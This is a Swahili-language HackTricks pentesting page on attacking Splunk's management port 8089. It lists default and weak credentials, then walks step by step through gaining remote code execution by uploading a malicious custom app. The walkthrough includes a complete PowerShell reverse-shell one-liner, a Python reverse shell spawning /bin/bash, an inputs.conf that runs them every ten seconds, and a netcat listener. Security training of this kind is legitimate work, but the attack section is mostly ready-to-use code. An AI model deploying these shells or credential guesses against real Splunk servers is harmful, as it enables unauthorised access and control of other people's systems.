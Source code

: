 # 8089 - Kupima Usalama wa Splunkd

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## **Taarifa Msingi**

Splunk ni chombo cha **uchambuzi wa logi** ambacho kina jukumu muhimu katika **kukusanya, kuchambua, na kuonyesha data**. Ingawa lengo lake la awali halikuwa kutumikia kama chombo cha **SIEM (Usalama wa Taarifa na Usimamizi wa Tukio)**, imepata umaarufu katika uwanja wa **uangalizi wa usalama** na **uchambuzi wa biashara**.

Maeneo ya Splunk mara nyingi hutumiwa kuhifadhi **data nyeti** na inaweza kutumika kama **chanzo muhimu cha habari** kwa wadukuzi ikiwa watafanikiwa kudukua mfumo. **Bandari ya chaguo:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**Seva ya wavuti ya Splunk inaendesha kwa chaguo-msingi kwenye bandari 8000**.
{% endhint %}

## Uchambuzi

### Toleo Huru

Kesi ya majaribio ya Splunk Enterprise inabadilika kuwa **toleo huru baada ya siku 60**, ambalo **halihitaji uthibitishaji**. Si jambo la kawaida kwa waendeshaji wa mfumo kufunga majaribio ya Splunk kuitathmini, ambayo **baadaye husahauliwa**. Hii itabadilika moja kwa moja kuwa toleo huru ambalo halina aina yoyote ya uthibitishaji, ikileta pengo la usalama katika mazingira. Baadhi ya mashirika wanaweza kuchagua toleo huru kutokana na mipaka ya bajeti, bila kuelewa kabisa matokeo ya kutokuwepo kwa usimamizi wa mtumiaji/jukumu.

### Anwani za Kuingia za Chaguo-msingi

Kwenye toleo za zamani za Splunk, anwani za kuingia za chaguo-msingi ni **`admin:changeme`**, ambazo zinaonyeshwa kwa urahisi kwenye ukurasa wa kuingia.\
Hata hivyo, **toleo jipya zaidi la Splunk** huanzisha **anwani za kuingia** **wakati wa mchakato wa usakinishaji**. Ikiwa anwani za kuingia za chaguo-msingi hazifanyi kazi, ni vyema kuchunguza nywila dhaifu za kawaida kama `admin`, `Welcome`, `Welcome1`, `Password123`, n.k.

### Kupata Taarifa

Baada ya kuingia kwenye Splunk, tunaweza **kuvinjari data**, kukimbia **ripoti**, kuunda **dashibodi**, **kusakinisha programu** kutoka maktaba ya Splunkbase, na kusakinisha programu za desturi.\
Unaweza pia kukimbia nambari: Splunk ina njia kadhaa za **kukimbia nambari**, kama vile programu za Django upande wa seva, vituo vya REST, vipokezi vilivyoandikwa, na hati za tahadhari. Njia ya kawaida ya kupata utekelezaji wa nambari kijijini kwenye seva ya Splunk ni kupitia matumizi ya kuingiza vilivyoandikwa.

Zaidi ya hayo, kwa kuwa Splunk inaweza kusakinishwa kwenye mwenyeji wa Windows au Linux, vipokezi vilivyoandikwa vinaweza kuundwa ili kukimbia skripti za Bash, PowerShell, au Batch.

### Shodan

* `Kujenga Splunk`

## Utekelezaji wa Nambari Kijijini

### Unda Programu ya Desturi

Programu ya desturi inaweza kukimbia **skripti za Python, Batch, Bash, au PowerShell**.\
Tambua kwamba **Splunk inakuja na Python iliyosakinishwa**, hivyo hata kwenye mifumo ya **Windows** utaweza kukimbia nambari ya python.

Unaweza kutumia [**hii**](https://github.com/0xjpuff/reverse\_shell\_splunk) pakiti ya Splunk kutusaidia. **Dereva** la saraka hii lina mifano kwa [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) na [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Hebu tuende hatua kwa hatua.

Ili kufanikisha hili, kwanza tunahitaji kuunda programu ya Splunk ya desturi kwa kutumia muundo wa saraka ifuatayo:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
Directory ya **`bin`** italeta **scripts zozote tunazotaka kuendesha** (katika kesi hii, **PowerShell** reverse shell), na directory ya chaguo itakuwa na faili yetu ya `inputs.conf`. Reverse shell yetu itakuwa **PowerShell one-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Faili ya [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) inaambia Splunk **skripti gani ichezwe** na hali zingine. Hapa tunaweka programu kama iliyoruhusiwa na kuambia Splunk kutekeleza skripti kila sekunde 10. Kipindi kila wakati ni sekunde, na kuingiza (skripti) itatekelezwa tu ikiwa mipangilio hii iko.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Tunahitaji faili ya `.bat`, ambayo itaendeshwa wakati programu inapowekwa na kutekeleza amri moja ya PowerShell.

Hatua inayofuata ni kuchagua `Install app from file` na kupakia programu.

<figure><img src="../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

Kabla ya kupakia programu mbaya ya desturi, hebu anzisha msikilizaji kwa kutumia Netcat au [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
Kwenye ukurasa wa `Pakia programu`, bonyeza kwenye kuvinjari, chagua tarball tuliyounda mapema na bonyeza `Pakia`. Mara tu tunapopakia programu, **kifaa cha kubadilisha shell** kitapokelewa na hali ya programu itabadilishwa moja kwa moja kuwa `Imewezeshwa`.

#### Linux

Ikiwa tunashughulika na **mwenyeji wa Linux**, tunahitaji **kuhariri script ya Python ya `rev.py`** kabla ya kuunda tarball na kupakia programu mbaya ya desturi. Mchakato mwingine ungebaki sawa, na tungepata uunganisho wa kifaa cha kubadilisha shell kwenye msikilizaji wetu wa Netcat na kuendelea na shughuli.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Upandishaji wa Mamlaka

Kwenye ukurasa ufuatao unaweza kupata maelezo jinsi huduma hii inavyoweza kutumiwa vibaya kwa ajili ya upandishaji wa mamlaka na kupata uthabiti:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Marejeo

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
